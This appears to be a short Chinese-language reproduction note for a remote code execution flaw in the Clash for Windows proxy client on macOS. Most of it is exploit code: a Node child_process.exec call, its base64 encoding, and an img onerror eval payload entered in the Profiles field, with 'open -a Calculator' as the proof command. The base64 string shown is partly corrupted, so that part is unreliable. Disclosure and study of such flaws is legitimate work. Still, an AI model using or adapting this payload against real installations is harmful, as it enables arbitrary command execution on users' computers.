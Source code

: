 # clash_rce_mac


0x01 工具介绍

````
一个 Go 语言开发的多平台代理客户端
````

项目地址：

https://github.com/Fndroid/clash_for_windows_pkg/releases



0x02 漏洞复现

exp：

````
require('child_process').exec('需要执行的系统命令',(error, stdout, stderr)=>{     alert(`stdout: ${stdout}`); });
````

将以上代码base64编码：

````
cmVxdWlyZSgnY2hpbGRfcHJvY2VzcycpLmV4ZWMoJwCBZ0yE+9995CcsKGVycm9yLCBzdGRvdXQsIHN0ZGVycik9PnsgICAgIGFsZXJ0KGBzdGRvdXQ6ICR7c3Rkb3V0fWApOyB9KTs=
````

最终的payload：

````
<img src=x onerror='eval(new Buffer(`你的base64payload`,`base64`).toString())'>
````



在Profiles菜单栏的输入框输入，点击Download

![image-20220228103847114](image-20220228103847114.png)



成功弹出计算机。

mac 弹计算机命令

````
open -a Calculator
````



![image-20220228104000594](/Users/sky11ne/Library/Application Support/typora-user-images/image-20220228104000594.png)



